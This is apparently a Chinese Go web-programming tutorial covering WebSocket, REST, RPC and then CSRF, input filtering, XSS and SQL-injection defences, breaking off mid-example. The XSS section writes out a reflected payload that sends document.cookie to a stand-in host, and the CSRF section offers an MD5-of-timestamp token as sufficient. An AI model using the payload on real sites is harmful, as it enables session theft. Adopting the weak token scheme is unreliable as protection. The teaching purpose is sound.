- 一个Web客户端只建立一个TCP连接
- Websocket服务端可以推送(push)数据到web客户端.
- 有更加轻量级的头，减少数据传送量

WebSocket URL 的起始输入是 ws:// 或是 wss://（在SSL上）。下图展示了WebSocket的通信过程，一个带有特定报头的HTTP握手被发送到了服务器端，接着在服务器端或是客户端就可以通过 JavaScript 来使用某种套接口（socket），这一套接口可被用来通过事件句柄异步地接收数据。


#### WebSocket 通信建立

浏览器发出 WebSocket 连接请求，然后服务器发出回应，然后连接建立成功，这个过程通常称为“握手” (handshake) 。在第一次 handshake 通过以后，连接便建立成功，其后的通讯数据都是以 ”\x00″ 开头，以 ”\xFF” 结尾。在客户端，这个是透明的，WebSocket 组件会自动将原始数据“掐头去尾”。

以下是 handshake 的请求和反馈信息：


在请求中的 "Sec-WebSocket-Key" 是随机的，这是一个经过 base64 编码后的数据。服务器端接收到这个请求之后需要把这个字符串连接上一个固定的字符串：

```
258EAFA5-E914-47DA-95CA-C5AB0DC85B11
```

生成一个这样的字符串：

```
f7cb4ezEAl6C3wRaU6JORA==258EAFA5-E914-47DA-95CA-C5AB0DC85B11
```

对该字符串先用 sha1 安全散列算法计算出二进制的值，然后用 base64 对其进行编码，即可以得到握手后的字符串： 

```
rE91AJhfC+6JdVcVXOGJEADEJdQ=
```

然后将之作为响应头`Sec-WebSocket-Accept`的值反馈给客户端。

#### Go 实现 Websocket

Go 语言标准包里面没有提供对 WebSocket 的支持，但是在由官方维护的 go.net 子包中有对这个的支持，你可以通过如下的命令获取该包：

```go
go get golang.org/x/net/websocket
```

WebSocket 分为客户端和服务端，接下来我们将实现一个简单的例子:用户输入信息，客户端通过 WebSocket 将信息发送给服务器端，服务器端收到信息之后主动 Push 信息到客户端，然后客户端将输出其收到的信息，客户端的代码如下：

```javascript
<html>
<head></head>
<body>
	<script type="text/javascript">
		var sock = null;
		var wsuri = "ws://127.0.0.1:1234";

		window.onload = function() {
			sock = new WebSocket(wsuri);

			sock.onopen = function() {
				console.log("connected to " + wsuri);
			}

			sock.onclose = function(e) {
				console.log("connection closed (" + e.code + ")");
			}

			sock.onmessage = function(e) {
				console.log("message received: " + e.data);
			}
		};

		function send() {
			var msg = document.getElementById('message').value;
			sock.send(msg);
		};
	</script>
	<h1>WebSocket Echo Test</h1>
	<form>
		<p>
			Message: <input id="message" type="text" value="Hello, world!">
		</p>
	</form>
	<button onclick="send();">Send Message</button>
</body>
</html>
```

可以看到客户端 JS，很容易的就通过 WebSocket 函数建立了一个与服务器的连接 socket，当握手成功后，会触发 WebScoket 对象的 onopen 事件，告诉客户端连接已经成功建立。客户端一般会绑定以下四个事件：

- onopen 建立连接后触发
- onmessage 收到消息后触发
- onerror 发生错误时触发
- onclose 关闭连接时触发

我们服务器端的实现如下：

```go
package main

import (
	"golang.org/x/net/websocket"
	"fmt"
	"log"
	"net/http"
)

func Echo(ws *websocket.Conn) {
	var err error

	for {
		var reply string

		if err = websocket.Message.Receive(ws, &reply); err != nil {
			fmt.Println("Can't receive")
			break
		}

		fmt.Println("Received back from client: " + reply)

		msg := "Received:  " + reply
		fmt.Println("Sending to client: " + msg)

		if err = websocket.Message.Send(ws, msg); err != nil {
			fmt.Println("Can't send")
			break
		}
	}
}

func main() {
	http.Handle("/", websocket.Handler(Echo))

	if err := http.ListenAndServe(":1234", nil); err != nil {
		log.Fatal("ListenAndServe:", err)
	}
}
```

当客户端将用户输入的信息 Send 之后，服务器端通过 Receive 接收到了相应信息，然后通过 Send 发送了应答信息。


### d. REST

#### 什么是 REST

REST 指的是一组架构约束条件和原则，满足这些约束条件和原则的应用程序或设计就是 RESTful 的。

要理解什么是 REST，我们需要理解下面几个概念:

- 资源（Resources） 

  REST 是"表现层状态转化"，其实它省略了主语。"表现层"其实指的是"资源"的"表现层"。

  那么什么是资源呢？就是我们平常上网访问的一张图片、一个文档、一个视频等。这些资源我们通过URI来定位，也就是一个 URI 表示一个资源。

- 表现层（Representation）

  资源是做一个具体的实体信息，他可以有多种的展现方式。而把实体展现出来就是表现层，例如一个 txt 文本信息，他可以输出成 html、json、xml 等格式，一个图片它可以以 jpg、png 等方式展现，这个就是表现层的意思。

  URI 确定一个资源，但是如何确定它的具体表现形式呢？应该在 HTTP 请求的头信息中用 Accept 和 Content-Type 字段指定，这两个字段才是对"表现层"的描述。

- 状态转化（State Transfer）

  访问一个网站，就代表了客户端和服务器的一个互动过程。在这个过程中，肯定涉及到数据和状态的变化。而 HTTP 协议是无状态的，那么这些状态肯定保存在服务器端，所以如果客户端想要通知服务器端改变数据和状态的变化，肯定要通过某种方式来通知它。

  客户端能通知服务器端的手段，只能是 HTTP 协议。具体来说，就是 HTTP 协议里面，四个表示操作方式的动词：GET、POST、PUT、DELETE。它们分别对应四种基本操作：GET 用来获取资源，POST 用来新建资源（也可以用于更新资源），PUT 用来更新资源，DELETE 用来删除资源。

综合上面的解释，我们总结一下什么是 RESTful 架构：

- 每一个 URI 代表一种资源
- 客户端和服务器之间，传递这种资源的某种表现层
- 客户端通过四个 HTTP 动词，对服务器端资源进行操作，实现"表现层状态转化"

Web应用要满足REST最重要的原则是:客户端和服务器之间的交互在请求之间是无状态的,即从客户端到服务器的每个请求都必须包含理解请求所必需的信息。如果服务器在请求之间的任何时间点重启，客户端不会得到通知。此外此请求可以由任何可用服务器回答，这十分适合云计算之类的环境。因为是无状态的，所以客户端可以缓存数据以改进性能。

另一个重要的REST原则是系统分层，这表示组件无法了解除了与它直接交互的层次以外的组件。通过将系统知识限制在单个层，可以限制整个系统的复杂性，从而促进了底层的独立性。

下面是 REST 架构图：


当REST架构的约束条件作为一个整体应用时，将生成一个可以扩展到大量客户端的应用程序。它还降低了客户端和服务器之间的交互延迟。统一界面简化了整个系统架构，改进了子系统之间交互的可见性。REST简化了客户端和服务器的实现，而且对于使用REST开发的应用程序更加容易扩展。


#### Go 实现 RESTful

Go没有为REST提供直接支持，但是因为RESTful是基于HTTP协议实现的，所以我们可以利用`net/http`包来自己实现，当然需要针对REST做一些改造，REST是根据不同的method来处理相应的资源，目前已经存在的很多自称是REST的应用，其实并没有真正的实现REST，我暂且把这些应用根据实现的method分成几个级别，请看下图：


上图展示了我们目前实现REST的三个level，我们在应用开发的时候也不一定全部按照RESTful的规则全部实现他的方式，因为有些时候完全按照RESTful的方式未必是可行的，RESTful服务充分利用每一个HTTP方法，包括`DELETE`和`PUT`。可有时，HTTP客户端只能发出`GET`和`POST`请求：

- HTML标准只能通过链接和表单支持`GET`和`POST`。在没有Ajax支持的网页浏览器中不能发出`PUT`或`DELETE`命令
- 有些防火墙会挡住HTTP `PUT`和`DELETE`请求，要绕过这个限制，客户端需要把实际的`PUT`和`DELETE`请求通过 POST 请求穿透过来。RESTful 服务则要负责在收到的 POST 请求中找到原始的 HTTP 方法并还原

以下示例引入了 [httprouter](https://github.com/julienschmidt/httprouter) 来帮助我们快速运用 RESTful 风格来设计应用：

```go
package main

import (
	"fmt"
	"log"
	"net/http"
  // https://github.com/julienschmidt/httprouter
	"github.com/julienschmidt/httprouter"
)

func Index(w http.ResponseWriter, r *http.Request, _ httprouter.Params) {
	fmt.Fprint(w, "Welcome!\n")
}

func Hello(w http.ResponseWriter, r *http.Request, ps httprouter.Params) {
	fmt.Fprintf(w, "hello, %s!\n", ps.ByName("name"))
}

func getuser(w http.ResponseWriter, r *http.Request, ps httprouter.Params) {
	uid := ps.ByName("uid")
	fmt.Fprintf(w, "you are get user %s", uid)
}

func modifyuser(w http.ResponseWriter, r *http.Request, ps httprouter.Params) {
	uid := ps.ByName("uid")
	fmt.Fprintf(w, "you are modify user %s", uid)
}

func deleteuser(w http.ResponseWriter, r *http.Request, ps httprouter.Params) {
	uid := ps.ByName("uid")
	fmt.Fprintf(w, "you are delete user %s", uid)
}

func adduser(w http.ResponseWriter, r *http.Request, ps httprouter.Params) {
	// uid := r.FormValue("uid")
	uid := ps.ByName("uid")
	fmt.Fprintf(w, "you are add user %s", uid)
}

func main() {
	router := httprouter.New()
	router.GET("/", Index)
	router.GET("/hello/:name", Hello)
	router.GET("/user/:uid", getuser)
	router.POST("/adduser/:uid", adduser)
	router.DELETE("/deluser/:uid", deleteuser)
	router.PUT("/moduser/:uid", modifyuser)

	log.Fatal(http.ListenAndServe(":8080", router))
}
```

上面的代码演示了如何编写一个 REST 的应用，我们访问的资源是用户，我们通过不同的 method 来访问不同的函数，这里使用了第三方库 [httprouter](https://github.com/julienschmidt/httprouter) ，在前面章节我们介绍过如何实现自定义的路由器，这个库实现了自定义路由和方便的路由规则映射，通过它，我们可以很方便的实现 REST 的架构。

REST 是一种架构风格，汲取了 WWW 的成功经验：无状态，以资源为中心，充分利用 HTTP 协议和 URI 协议，提供统一的接口定义，使得它作为一种设计 Web 服务的方法而变得流行。在某种意义上，通过强调 URI 和 HTTP 等早期 Internet 标准，REST 是对大型应用程序服务器时代之前的 Web 方式的回归。目前 Go 对于 REST 的支持还是很简单的，通过实现自定义的路由规则，我们就可以为不同的 method 实现不同的 handle，这样就实现了 REST 的架构。


### e. RPC

#### RPC 定义

RPC 就是想实现函数调用模式的网络化。客户端就像调用本地函数一样，然后客户端把这些参数打包之后通过网络传递到服务端，服务端解包到处理过程中执行，然后执行的结果反馈给客户端。

RPC (Remote Procedure Call Protocol) ——远程过程调用协议，是一种通过网络从远程计算机程序上请求服务，而不需要了解底层网络技术的协议。它假定某些传输协议的存在，如 TCP 或 UDP，以便为通信程序之间携带信息数据。通过它可以使函数调用模式网络化。在 OSI 网络通信模型中，RPC 跨越了传输层和应用层。RPC 使得开发包括网络分布式多程序在内的应用程序更加容易。 

#### RPC 工作原理


运行时,一次客户机对服务器的 RPC 调用,其内部操作大致分为：

1. 调用客户端句柄；执行传送参数

2. 调用本地系统内核发送网络消息

3. 消息传送到远程主机

4. 服务器句柄得到消息并取得参数

5. 执行远程过程

6. 执行的过程将结果返回服务器句柄

7. 服务器句柄返回结果，调用远程系统内核

8. 消息传回本地主机

9. 客户句柄由内核接收消息
10. 客户接收句柄返回的数据

#### Go RPC

Go 标准包中已经提供了对 RPC 的支持，而且支持三个级别的 RPC：TCP、HTTP、JSONRPC。但 Go 的 RPC 包是独一无二的 RPC，它和传统的 RPC 系统不同，它只支持 Go 开发的服务器与客户机之间的交互，因为在内部，它们采用了 Gob 来编码。

Go RPC 的函数只有符合下面的条件才能被远程访问，不然会被忽略，详细的要求如下：

- 函数必须是导出的(首字母大写)
- 必须有两个导出类型的参数，
- 第一个参数是接收的参数，第二个参数是返回给客户端的参数，第二个参数必须是指针类型的
- 函数还要有一个返回值 error

举个例子，正确的 RPC 函数格式如下：

```go
func (t *T) MethodName(argType T1, replyType *T2) error
```

T、T1 和 T2 类型必须能被 `encoding/gob` 包编解码。

任何的 RPC 都需要通过网络来传递数据，Go RPC 可以利用 HTTP 和 TCP 来传递数据，利用 HTTP 的好处是可以直接复用 `net/http` 里面的一些函数。

#### HTTP RPC 实现

##### Server

```go
package main

import (
	"errors"
	"fmt"
	"net/http"
	"net/rpc"
)

type Args struct {
	A, B int
}

type Quotient struct {
	Quo, Rem int
}

type Arith int

func (t *Arith) Multiply(args *Args, reply *int) error {
	*reply = args.A * args.B
	return nil
}

func (t *Arith) Divide(args *Args, quo *Quotient) error {
	if args.B == 0 {
		return errors.New("divide by zero")
	}
	quo.Quo = args.A / args.B
	quo.Rem = args.A % args.B
	return nil
}

func main() {
	arith := new(Arith)
  //注册对外暴露 arith，供客户机来调用它实现的函数
	rpc.Register(arith)
  //HandleHTTP 在 DefaultRPCPath 上向 DefaultServer 注册 RPC 消息的 HTTP 处理程序
  //在 DefaultDebugPath 上注册调试处理程序
  //不过仍然需要调用 http.Serve()，通常会放在 go 语句中
	rpc.HandleHTTP()

	err := http.ListenAndServe(":1234", nil)
	if err != nil {
		fmt.Println(err.Error())
	}
}
```

我们注册了一个 Arith 的 RPC 服务，然后通过 `rpc.HandleHTTP` 函数把该服务注册到了 HTTP 协议上，然后我们就可以利用 http 的方式来传递数据了。

##### Client

```go
package main

import (
	"fmt"
	"log"
	"net/rpc"
	"os"
)

type Args struct {
	A, B int
}

type Quotient struct {
	Quo, Rem int
}

func main() {
	if len(os.Args) != 2 {
		fmt.Println("Usage: ", os.Args[0], "server")
		os.Exit(1)
	}
	serverAddress := os.Args[1]
  //func DialHTTP(network, address string) (*Client, error)
  //DialHTTP 连接到侦听默认 HTTP RPC 路径的指定网络地址的 HTTP RPC 服务器
	client, err := rpc.DialHTTP("tcp", serverAddress+":1234")
	if err != nil {
		log.Fatal("dialing:", err)
	}
  //以下为同步调用
	args := Args{17, 8}
	var reply int
  //客户机通过 Call 函数来调用
	err = client.Call("Arith.Multiply", args, &reply)
	if err != nil {
		log.Fatal("arith error:", err)
	}
	fmt.Printf("Arith: %d*%d=%d\n", args.A, args.B, reply)

	var quot Quotient
  //客户机通过 Call 函数来调用
	err = client.Call("Arith.Divide", args, &quot)
	if err != nil {
		log.Fatal("arith error:", err)
	}
	fmt.Printf("Arith: %d/%d=%d remainder %d\n", args.A, args.B, quot.Quo, quot.Rem)
}
```

我们把上面的服务端和客户端的代码分别编译，然后先把服务端开启，然后开启客户端，输入代码，就会输出如下信息：

```go
$ ./http_c localhost
Arith: 17*8=136
Arith: 17/8=2 remainder 1
```

通过上面的调用可以看到参数和返回值是我们定义的 struct 类型，在服务端我们把它们当做调用函数的参数的类型，在客户端作为 `client.Call` 的第2，3两个参数的类型。客户端最重要的就是这个 Call 函数，它有3个参数，第1个要调用的函数的名字，第2个是要传递的参数，第3个要返回的参数(注意是指针类型)，通过上面的代码例子我们可以发现，使用 Go 的 RPC 实现相当的简单，方便。

#### TCP RPC 实现

##### Server

```go
package main

import (
	"errors"
	"fmt"
	"net"
	"net/rpc"
	"os"
)

type Args struct {
	A, B int
}

type Quotient struct {
	Quo, Rem int
}

type Arith int

func (t *Arith) Multiply(args *Args, reply *int) error {
	*reply = args.A * args.B
	return nil
}

func (t *Arith) Divide(args *Args, quo *Quotient) error {
	if args.B == 0 {
		return errors.New("divide by zero")
	}
	quo.Quo = args.A / args.B
	quo.Rem = args.A % args.B
	return nil
}

func main() {
	arith := new(Arith)
  //注册对外暴露 arith，供客户机来调用它实现的函数
	rpc.Register(arith)
  //返回 TCP 端点的地址，第一个参数必须是 "tcp"
	tcpAddr, err := net.ResolveTCPAddr("tcp", ":1234")
	checkError(err)
  //监听对应 tcp 地址+端口
	listener, err := net.ListenTCP("tcp", tcpAddr)
	checkError(err)

	for {
		conn, err := listener.Accept()
		if err != nil {
			continue
		}
    //当有客户端连接上来后，需要把这个连接移交给 rpc 来处理
		go rpc.ServeConn(conn)
	}
}

func checkError(err error) {
	if err != nil {
		fmt.Println("Fatal error ", err.Error())
		os.Exit(1)
	}
}
```

和 http rpc 的服务器相比，不同在于我们采用了 TCP 协议，然后需要自己控制连接，当有客户端连接上来后，我们需要把这个连接交给rpc来处理。

##### Client

```go
package main

import (
	"fmt"
	"log"
	"net/rpc"
	"os"
)

type Args struct {
	A, B int
}

type Quotient struct {
	Quo, Rem int
}

func main() {
	if len(os.Args) != 2 {
		fmt.Println("Usage: ", os.Args[0], "server:port")
		os.Exit(1)
	}
	service := os.Args[1]
  //Dial 连接到侦听默认 TCP RPC 路径的指定网络地址的 TCP RPC 服务器
  client, err := rpc.Dial("tcp", service+":1234")
	if err != nil {
		log.Fatal("dialing:", err)
	}
	//以下为同步调用
	args := Args{17, 8}
	var reply int
  //客户机通过 Call 函数来调用
	err = client.Call("Arith.Multiply", args, &reply)
	if err != nil {
		log.Fatal("arith error:", err)
	}
	fmt.Printf("Arith: %d*%d=%d\n", args.A, args.B, reply)

	var quot Quotient
  //客户机通过 Call 函数来调用
	err = client.Call("Arith.Divide", args, &quot)
	if err != nil {
		log.Fatal("arith error:", err)
	}
	fmt.Printf("Arith: %d/%d=%d remainder %d\n", args.A, args.B, quot.Quo, quot.Rem)
}
```

这个客户端代码和 http rpc 的客户机代码对比，唯一的区别一个是 DialHTTP，一个是 Dial(tcp) ，其他处理一模一样。

#### JSON RPC 实现

JSON RPC 是数据编码采用了 JSON，而不是 gob 编码，其他和上面介绍的 RPC 概念一模一样，下面演示一下如何使用 Go 提供的 json-rpc 标准包，

##### Server

```go
package main

import (
	"errors"
	"fmt"
	"net"
	"net/rpc"
	"net/rpc/jsonrpc"
	"os"
)

type Args struct {
	A, B int
}

type Quotient struct {
	Quo, Rem int
}

type Arith int

func (t *Arith) Multiply(args *Args, reply *int) error {
	*reply = args.A * args.B
	return nil
}

func (t *Arith) Divide(args *Args, quo *Quotient) error {
	if args.B == 0 {
		return errors.New("divide by zero")
	}
	quo.Quo = args.A / args.B
	quo.Rem = args.A % args.B
	return nil
}

func main() {
	arith := new(Arith)
  //注册对外暴露 arith，供客户机来调用它实现的函数
	rpc.Register(arith)
  ////返回 TCP 端点的地址，第一个参数必须是 "tcp"
	tcpAddr, err := net.ResolveTCPAddr("tcp", ":1234")
	checkError(err)

	listener, err := net.ListenTCP("tcp", tcpAddr)
	checkError(err)

	for {
		conn, err := listener.Accept()
		if err != nil {
			continue
		}
    //当有客户端连接上来后，需要把这个连接移交给 jsonrpc 来处理
		go jsonrpc.ServeConn(conn)
	}
}

func checkError(err error) {
	if err != nil {
		fmt.Println("Fatal error ", err.Error())
		os.Exit(1)
	}
}
```

可以看出 json-rpc 是基于 TCP 协议实现的，目前它还不支持 HTTP 方式。

##### Client

```go
package main

import (
	"fmt"
	"log"
	"net/rpc/jsonrpc"
	"os"
)

type Args struct {
	A, B int
}

type Quotient struct {
	Quo, Rem int
}

func main() {
	if len(os.Args) != 2 {
		fmt.Println("Usage: ", os.Args[0], "server:port")
		log.Fatal(1)
	}
	service := os.Args[1]
  //Dial 连接到侦听默认 TCP RPC 路径的指定网络地址的 TCP RPC 服务器
  client, err := jsonrpc.Dial("tcp", service+":1234")
	if err != nil {
		log.Fatal("dialing:", err)
	}
	//以下为同步调用
	args := Args{17, 8}
	var reply int
  //客户机通过 Call 函数来调用
	err = client.Call("Arith.Multiply", args, &reply)
	if err != nil {
		log.Fatal("arith error:", err)
	}
	fmt.Printf("Arith: %d*%d=%d\n", args.A, args.B, reply)

	var quot Quotient
  //客户机通过 Call 函数来调用
	err = client.Call("Arith.Divide", args, &quot)
	if err != nil {
		log.Fatal("arith error:", err)
	}
	fmt.Printf("Arith: %d/%d=%d remainder %d\n", args.A, args.B, quot.Quo, quot.Rem)
}
```


## *10. 安全与加密*

### a. 预防 CSRF 攻击

#### 什么是 CSRF

CSRF (Cross-site request forgery) ，中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF 。

跨站请求伪造，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了 web 中用户身份验证的一个漏洞：**简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的**。

#### CSRF 的原理



从上图可以看出，要完成一次 CSRF 攻击，受害者必须依次完成两个步骤 ：

- 登录受信任网站A，并在本地生成Cookie 。
- 在不退出A的情况下，访问危险网站B。

CSRF 攻击主要是因为 Web 的隐式身份验证机制，Web 的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。

#### 如何预防 CSRF

CSRF 的防御可以从服务端和客户端两方面着手，防御效果是从服务端着手效果比较好，现在一般的 CSRF 防御也都在服务端进行。

服务端的预防 CSRF 攻击的方式方法有多种，但思想上都是差不多的，主要从以下2个方面入手：

- 正确使用 GET、POST 和 Cookie
- 在非GET请求中增加伪随机数

我们上一章介绍过 REST 方式的 Web 应用，一般而言，普通的 Web 应用都是以 GET、POST 为主，还有一种请求是 Cookie 方式。我们一般都是按照如下方式设计应用：

1、GET 常用在查看，列举，展示等不需要改变资源属性的时候；

2、POST 常用在下达订单，改变一个资源的属性或者做其他一些事情；

接下来我就以 Go 语言来举例说明，如何限制对资源的访问方法：

```go
mux.Get("/user/:uid", getuser)
mux.Post("/user/:uid", modifyuser)
```

这样处理后，因为我们限定了修改只能使用 POST，当 GET 方式请求时就拒绝响应，所以上面图示中 GET 方式的 CSRF 攻击就可以防止了，但这样就能全部解决问题了吗？当然不是，因为 POST 也是可以模拟的。

因此我们需要实施第二步，在非 GET 方式的请求中增加随机数，这个大概有三种方式来进行：

- 为每个用户生成一个唯一的 cookie token，所有表单都包含同一个伪随机值，这种方案最简单，因为攻击者不能获得第三方的 Cookie (理论上)，所以表单中的数据也就构造失败，但是由于用户的 Cookie 很容易由于网站的 XSS 漏洞而被盗取，所以这个方案必须要在没有 XSS 的情况下才安全

- 每个请求使用验证码，这个方案是完美的，因为要多次输入验证码，所以用户友好性很差，所以不适合实际运用

- 不同的表单包含一个不同的伪随机值，我们在介绍“如何防止表单多次递交”时介绍过此方案，复用相关代码，实现如下：

  生成随机数 token：

  ```go
  h := md5.New()
  io.WriteString(h, strconv.FormatInt(crutime, 10))
  io.WriteString(h, "ganraomaxxxxxxxxx")
  token := fmt.Sprintf("%x", h.Sum(nil))
  
  t, _ := template.ParseFiles("login.gtpl")
  t.Execute(w, token)
  ```

  输出 token：

  ```go
  <input type="hidden" name="token" value="{{.}}">
  ```

  验证 token：

  ```go
  r.ParseForm()
  token := r.Form.Get("token")
  if token != "" {
  	//验证token的合法性
  } else {
  	//不存在token报错
  }
  ```

  这样基本就实现了安全的 POST 请求了。


### b. 确保输入过滤

过滤用户数据是Web应用安全的基础。它是验证数据合法性的过程。通过对所有的输入数据进行过滤，可以避免恶意数据在程序中被误信或误用。大多数Web应用的漏洞都是因为没有对用户输入的数据进行恰当过滤所引起的。

我们需要从以下三个方面着手：

- 识别数据，搞清楚需要过滤的数据来自于哪里
- 过滤数据，弄明白我们需要什么样的数据
- 区分已过滤及被污染数据，如果存在攻击数据那么保证过滤之后可以让我们使用更安全的数据

#### 识别数据

“识别数据”作为第一步是因为在你不知道“数据是什么，它来自于哪里”的前提下，你也就不能正确地过滤它。这里的数据是指所有源自非代码内部提供的数据。例如:所有来自客户端的数据，但客户端并不是唯一的外部数据源，数据库和第三方提供的接口数据等也可以是外部数据源。

由用户输入的数据我们通过Go非常容易识别，Go通过`r.ParseForm`之后，把用户POST和GET的数据全部放在了`r.Form`里面。其它的输入要难识别得多，例如，`r.Header`中的很多元素是由客户端所操纵的。常常很难确认其中的哪些元素组成了输入，所以，最好的方法是把里面所有的数据都看成是用户输入。(例如`r.Header.Get("Accept-Charset")`这样的也看做是用户输入,虽然这些大多数是浏览器操纵的)

贴下官方文档对 Request.ParseFrom 方法的介绍：

> ParseForm populates r.Form and r.PostForm.
>
> For all requests, ParseForm parses the raw query from the URL and updates r.Form.
>
> For POST, PUT, and PATCH requests, it also parses the request body as a form and puts the results into both r.PostForm and r.Form. Request body parameters take precedence over URL query string values in r.Form.
>
> For other HTTP methods, or when the Content-Type is not application/x-www-form-urlencoded, the request Body is not read, and r.PostForm is initialized to a non-nil, empty value.
>
> If the request Body's size has not already been limited by MaxBytesReader, the size is capped at 10MB.
>
> ParseMultipartForm calls ParseForm automatically. ParseForm is idempotent.
>
> 中文翻译：
>
> ParseForm填充r.Form和r.PostForm。
>
> 对于所有请求，ParseForm从URL解析原始查询并更新r.Form。
>
> 对于POST，PUT和PATCH请求，它还将请求体解析为一个表单，并将结果放入r.PostForm和r.Form中。 请求正文参数优先于r.Form中的URL查询字符串值。
>
> 对于其他HTTP方法，或者当Content-Type不是application / x-www-form-urlencoded时，不读取请求Body，并且将r.PostForm初始化为非零空值。
>
> 如果请求Body的大小尚未受MaxBytesReader限制，则大小上限为10MB。
>
> ParseMultipartForm自动调用ParseForm。 ParseForm是幂等的。

#### 过滤数据

在知道数据来源之后，就可以过滤它了。过滤是一个有点正式的术语，它在平时表述中有很多同义词，如验证、清洁及净化。尽管这些术语表面意义不同，但它们都是指的同一个处理：防止非法数据进入你的应用。

过滤数据有很多种方法，其中有一些安全性较差。最好的方法是把过滤看成是一个检查的过程，在你使用数据之前都检查一下看它们是否是符合合法数据的要求。而且不要试图好心地去纠正非法数据，而要让用户按你制定的规则去输入数据。历史证明了试图纠正非法数据往往会导致安全漏洞。

过滤数据主要采用如下一些库来操作：

- strconv包下面的字符串转化相关函数，因为从Request中的`r.Form`返回的是字符串，而有些时候我们需要将之转化成整/浮点数，`Atoi`、`ParseBool`、`ParseFloat`、`ParseInt`等函数就可以派上用场了
- string包下面的一些过滤函数`Trim`、`ToLower`、`ToTitle`等函数，能够帮助我们按照指定的格式获取信息
- regexp包用来处理一些复杂的需求，例如判定输入是否是Email、生日之类

过滤数据除了检查验证之外，在特殊时候，还可以采用白名单。即假定你正在检查的数据都是非法的，除非能证明它是合法的。使用这个方法，如果出现错误，只会导致把合法的数据当成是非法的，而不会是相反，尽管我们不想犯任何错误，但这样总比把非法数据当成合法数据要安全得多。

#### 区分过滤数据

如果完成了上面的两步，数据过滤的工作就基本完成了，但是在编写Web应用的时候我们还需要区分已过滤和被污染数据，因为这样可以保证过滤数据的完整性，而不影响输入的数据。


### c. 预防 XSS 攻击

#### 什么是 XSS

XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为两大类：

* 一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器
* 另一类是反射型XSS，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

#### XXS 的原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：`http://127.0.0.1/?name=szy`，就会在浏览器输出如下信息：

```
hello szy
```

如果我们传递这样的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？

与上类似，如下这样的url：`http://127.0.0.1/name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，这样就可以把当前的cookie发送到指定的站点：`www.xxx.com`。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

#### 如何预防 XSS

答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的 XSS 攻击。

目前防御 XSS 主要有如下几种方式：

- 过滤特殊字符

  避免 XSS 的方法之一主要是将用户所提供的内容进行过滤，Go 语言提供了 HTML 的过滤函数：

  text/template 包下面的 HTMLEscapeString、JSEscapeString 等函数

- 使用HTTP头指定类型

```go
w.Header().Set("Content-Type","text/javascript")
```

这样就可以让浏览器解析 javascript 代码，而不会是 html 输出。


### d. 预防 SQL 注入攻击

#### 什么是 SQL 注入

SQL 注入攻击 (SQL Injection) ，简称注入攻击，是Web开发中最常见的一种安全漏洞。可以用它来从数据库获取敏感信息，或者利用数据库的特性执行添加用户，导出文件等一系列恶意操作，甚至有可能获取数据库乃至系统用户最高权限。

而造成 SQL 注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的 SQL 查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。

#### SQL 注入攻击实例

很多 Web 开发者没有意识到 SQL 查询是可以被篡改的，从而把 SQL 查询当作可信任的命令。殊不知，SQL 查询是可以绕开访问控制，从而绕过身份验证和权限检查的。更有甚者，有可能通过 SQL 查询去运行主机系统级的命令。

下面将通过一些真实的例子来详细讲解 SQL 注入的方式。

考虑以下简单的登录表单：

```html
<form action="/login" method="POST">
<p>Username: <input type="text" name="username" /></p>
<p>Password: <input type="password" name="password" /></p>
<p><input type="submit" value="登陆" /></p>
</form>
```

我们的处理里面的 SQL 可能是这样的：

```go
username:=r.Form.Get("username")
password:=r.Form.Get("password")
